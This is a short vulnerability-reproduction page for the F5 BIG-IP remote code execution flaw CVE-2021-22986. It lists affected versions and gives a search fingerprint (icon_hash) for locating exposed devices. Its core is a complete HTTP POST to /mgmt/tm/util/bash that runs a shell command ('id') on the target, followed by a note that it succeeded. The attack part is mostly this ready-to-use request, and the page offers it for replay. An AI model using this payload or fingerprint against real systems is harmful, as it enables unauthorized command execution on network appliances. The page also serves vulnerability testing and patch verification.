 # F5 BIG-IP Remote Code Execution Vulnerability CVE-2021-22986

## Vulnerability Description

F5 BIG-IP is an application delivery platform of F5 companies in the United States that integrates network traffic management, application security management, load balancing and other functions.



Recently, F5 released the F5 BIG-IQ/F5 BIG-IP code execution, risk statement for code execution, and the F5 security announcement updated BIG-IP, and several serious vulnerabilities in BIG-IQ. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 16.x: 16.1.0.3</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 15.x: 15.1.0.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 14.x: 14.1.2.6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 13.x: 13.1.3.4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 12.x: 12.1.5.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">F5 BIG-IP 11.x: 11.6.5.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="-335242539"</span>

## Vulnerability reappears

Visit the login page as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222032.png)



Send a request packet

```plain
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Connection: close
Content-Length: 41
Cache-Control: max-age=0
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Upgrade-Insecure-Requests: 1
Content-Type: application/json

{"command":"run","utilCmdArgs":"-c id"}
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153222086.png)

Successfully executed command id
